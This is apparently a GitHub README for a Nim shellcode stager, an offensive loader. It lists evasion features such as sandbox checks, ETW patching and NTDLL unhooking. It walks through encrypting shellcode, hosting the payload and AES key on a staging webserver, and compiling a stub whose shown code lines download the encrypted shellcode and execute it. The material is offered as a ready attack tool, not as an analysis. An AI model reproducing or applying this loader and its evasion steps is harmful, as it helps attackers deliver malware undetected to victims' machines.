 # Simple Nim Stager w/ a few features

## Features

- HTTP Stager (with AES key and IV staged)
- Shellcode execution using Fibers
- Dynamic functions retrieval
- AES 256 CTR Decryption
- Basic sandbox check (Numbers of CPUs, Amount of RAM, C:\ capacity, Sleep timer)
- ETW Patching
- NTDLL Unhooking

## Usage

### 1. Setup encrypt.nim

First of all, you have to change a few variables in encrypt.nim file.
#### 1.1 Shellcode file
```nim
let shellcode = readFile("shellcode.bin") # <-- TO EDIT
```

#### 1.2 Envkey (optional)
```nim
envkey: string = "AAAAAAAAAAAA" # <-- TO EDIT
```

With that being done, you can run `encrypt.nim`.

```nim
$> nim r ./encrypt.nim
```

It is going to generate you 2 files : `sc_enc.bin` (the encrypted shellcode) and `constants.json` (where IV and KEY are stored). You have to take those two files and put it in the root of the webserver you want to use to stage your payload.

### 2. Edit main.nim
In the main stub you have to replace the default localhost to your stager server.

```nim
var enctext =  toByteSeq(client.getContent("http://127.0.0.1:8000/sc_enc.bin")) # <-- TO EDIT
var constants = parseJson(client2.getContent("http://127.0.0.1:8000/constants.json")) # <-- TO EDIT
```

### 3. Compile
You can now compile `main.nim`.

```nim
$> nim c -d:release ./main.nim
```

## Ressources used

- https://github.com/byt3bl33d3r/OffensiveNim
